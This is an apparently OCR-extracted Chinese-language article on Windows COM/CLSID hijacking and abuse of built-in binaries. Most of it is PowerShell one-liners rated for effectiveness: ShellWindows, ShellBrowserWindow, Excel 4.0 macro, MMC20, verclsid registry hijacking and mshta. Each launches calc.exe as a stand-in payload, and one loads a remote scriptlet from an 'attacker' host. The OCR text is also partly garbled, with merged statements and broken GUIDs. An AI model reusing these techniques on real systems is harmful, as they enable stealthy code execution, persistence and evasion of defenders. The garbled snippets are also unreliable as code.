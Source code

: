 - 攻击者通过覆盖用户级合法注册表项来劫持 CLSID HKCU\Software\Classes\CLSID，以将受信任的进程（例如explorer.exe）重定向到没有管理员权限的恶意负载。  
  
- 被劫持的 CLSID 会秘密执行，通常会在系统重启后继续存在，并通过模仿合法的系统任务（如磁盘清理vssadmin delete shadows）来绕过检测。  
  
- 缓解措施包括监视注册表更改、强制对 CLSID 密钥进行最小权限访问、通过 AppLocker 将受信任的 COM 对象列入白名单以及验证引用二进制文件的数字签名。  
  
- 开发人员必须确保正确的 CLSID 注册（例如，使用regsvr32）并匹配 32/64 位体系结构，以避免出现类似的错误0x80040154。  
  
现在来看看滥用它们的令人兴奋的部分：  
  
ShellWindows COM（有效性：★★★★☆）  
  
```
$sh = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8–11CF-A442–00A0C90A8F39"))$sh.Item().Document.Application.ShellExecute("calc.exe", "", "", $null, 0)
```  
  
  
ShellBrowserWindow（有效性：★★★★★）  
```
$browser = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1–11D1–8455–00A0C91F3880"))$browser.Document.Application.ShellExecute("calc.exe")
```  
  
  
Excel 4.0宏（有效性：★★★★☆）  
```
$excel = [activator]::CreateInstance([type]::GetTypeFromCLSID("00024500–0000–0000-C000–000000000046"$excel.ExecuteExcel4Macro('CALL("user32","ShellExecuteA","JJCCJJ",0,"open","calc.exe","","",5)')
```  
  
  
XMLDOM Remote Scriptlet（有效性：★★★★★）  
```
$xml = [activator]::CreateInstance([type]::GetTypeFromCLSID("88d969c5-f192–11d4-a65f-0040963251e5"))$xml.async = $false$xml.load("http://attacker/calc.sct")
```  
  
  
MMC20.应用（有效性：★★★☆☆）  
```
$mmc = [activator]::CreateInstance([type]::GetTypeFromCLSID("49B2791A-B1AE-4C90–9B8E-E860BA07F889"))$mmc.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc.exe", "7")
```  
  
  
Verclsid.exe代理（有效性：★★★★☆）  
```
New-Item -Path “HKCU:\Software\Classes\CLSID\{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}\InprocServer32” -Force Set-ItemProperty -Path “HKCU:\Software\Classes\CLSID\{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}\InprocServer32” -Name “(Default)” -Value “C:\Windows\System32\calc.exe” & verclsid.exe /S /C “{01575CFE-9A55–4003-A5E1-F38D1EBDCBE1}”
```  
  
  
滥用（鲜为人知的）Windows 二进制文件执行隐形负载  
  
Windows 内置了一些攻击者喜欢的工具，这些工具是他们每天使用的受信任的二进制文件，但只要稍加改动，它们就会变成让安全人员蒙蔽双眼的有效载荷启动器  
  
MSHTA直接在内存中执行 VBScript 或 JavaScript，无文件，无痕迹  
  
```
mshtavbscript:Execute(“CreateObject(“”WScript.Shell””).Run “”calc.exe””,0 : close”)
```  
  